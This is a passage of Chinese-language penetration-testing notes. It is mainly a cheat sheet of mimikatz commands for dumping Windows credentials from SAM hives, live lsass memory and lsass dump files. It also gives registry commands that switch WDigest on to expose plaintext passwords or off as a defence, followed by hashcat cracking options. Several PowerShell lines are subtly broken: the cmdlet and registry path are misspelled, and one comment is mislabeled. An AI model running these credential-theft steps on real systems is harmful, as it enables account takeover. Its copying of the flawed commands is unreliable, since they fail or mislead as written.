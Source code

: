 使用`mimikatz`读取SAM和System文件：

- `lsadump::sam /sam:sam.hive /system:system.hive`

![image-20220404105826859](https://husins.oss-cn-beijing.aliyuncs.com/image-20220404105826859.png)

使用`mimikatz`直接读取本地`SAM`文件

- `mimikatz.exe` 运行mimikatz
- `privilege::debug` 判断权限是否符合要求
- `token::elevate` 提升权限到`system`
- `lsadump::sam`  读取本机hash

使用`mimikatz`在线读取SAM文件(这个能抓到明文密码)：

- `privilege::debug`
- `log` 开启日志功能
- `sekurlsa::logonpasswords`

使用`mimikatz`读取`lsass.dmp`文件中的密码：

- 打开任务管理器，找到`lsass.exe`进程，右键导出`lsass.DMP`文件
- `sekurlsa::minidump lsass.DMP` 将文件加载进`mimikatz`
- 出现`Switch to NIMIDUMP`表示加载成功
- `sekurlsa::logonPasswords full` 导出密码散列值

**还可以使用PowerShell远程加载mimikatz**

### 防御方法

- 安装补丁`KB2871997` 关闭`Wdigest`功能
- `Windows Server 2012`以上版本默认关闭`Wdigest`，使得攻击者无法从内存中获取明文密码

```powershell
# 开启Wdigest Auth
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
# 关闭Wdigest Auth
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f

# 开启Wdigest Auth(win10 不太好用)
Set-IteProperty -Path HKLM:\SYSTEM\CurrentCzontrolSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
# 开启Wdigest Auth
Set-IteProperty -Path HKLM:\SYSTEM\CurrentCzontrolSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 0
```

# Hashcat

**常用参数**：

- `-b` 测试档期啊能使用机器进行破解的基准速度
- `--force` 强制执行
- `-m` 指定散列值类型
- `-a` 指定破解模式
- `-show`：仅显示已经破解的密码
- `-o,-outfile=FILE`: 定义散列值文件，回复文件名和保存位置
- `-n,-threads=Number` 线程数
- `--remove` 把破解出来的密码从散列值列表中移除
- `--segment-size 512` 设置内存大小，单位MB，可以提高破解速度
